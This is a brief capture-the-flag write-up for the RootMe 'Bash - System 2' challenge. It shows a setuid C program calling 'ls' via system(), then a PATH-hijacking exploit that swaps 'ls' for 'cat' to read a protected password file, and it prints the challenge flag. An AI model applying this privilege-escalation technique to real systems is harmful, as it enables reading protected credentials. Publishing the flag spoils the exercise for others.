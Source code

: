 ```yaml
---
title: RootMe BashSystem2 WriteUp
date: 2023-10-03 
categories: [RootMe, AppScript]
tags: [RootMe, RootMe - AppScript, WriteUp]
author: barabulkit
---
```


# Bash - System 2

This one is very similar to bash system 1
We have next code in this challenge 

```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
 
int main(){
    setreuid(geteuid(), geteuid());
    system("ls -lA /challenge/app-script/ch12/.passwd");
    return 0;
}
```

and again we just need to change ls to cat

```shell
ln -s /bin/cat /tmp/ls
export PATH=/tmp:$PATH
./ch12
```

And there is our flag `8a95eDS/*e_T#`